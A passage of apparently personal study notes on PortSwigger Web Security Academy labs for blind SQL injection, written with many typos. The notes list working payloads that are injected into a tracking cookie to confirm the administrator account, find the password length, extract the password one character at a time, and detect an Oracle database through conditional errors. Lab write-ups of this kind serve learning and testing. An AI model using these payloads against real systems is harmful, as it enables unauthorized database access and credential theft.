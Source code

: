   - `limit 1` return one row mean one '1' to compare with.

- `' AND (select '1' from users where username='administrator' limit 1)='1` -> true
  
  - there is a username called `administrator`.

- `' AND (select '1' from users where username='administrator' and length(password)=20 limit 1)='1` -> true
  
  - password length is bigger than 1.

- `' AND (select '1' from users where username='administrator' and length(password)=20 limit 1)='1` -> true
  
  - password is 20 charcter along.

- `' AND (SELECT SUBSTRING(password,1,20) FROM users WHERE username='administrator')='a` 
  
  - payload to get passoword one by one 
  
  - add mark in place of `a` use a list number 0-9 and a-z
  
  - in place of `20` in  `SUBSTRING(password,1,20)` start from 1 and increament by 1 after get the charcter and add it before attack placeholde (was `a`).

- password retreived by introduer tab `l1ee6217ch30hs5vrqq1` get by run sniper attack with pause when find message welcome again in response.

---

## [Lab: Blind SQL injection with conditional errors | Web Security Academy](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

application uses a tracking cookie for analytics

The database contains a different table called `users`, with columns called `username` and `password`

- `category` prameter and request body in form not vulnarable.

- `Cookie: TrackingId=Mmw4JoCqtHFaEmUF'` -> 500 internal server error
  
  - is vulnarable with sqli (cause error message).
  
  - error happen only if query is wrong 

- `' AND (select 's')='s` -> 500 error 

- `' AND (select 's' from dual)='s` -> 200 OK
  
  - DB is **oracle** (needs to specify a table).

- `' AND  (select 's' from users where rownum=1)='s` 
  
  - there is a table called users 
  
  - `rownum` like `limit` in other DBs to return only one `'s'`.

- `' AND (select 's' from users where rownum=1 and username='administrator')='s` -> 200 OK
  
  - there is a username called `administrator`.
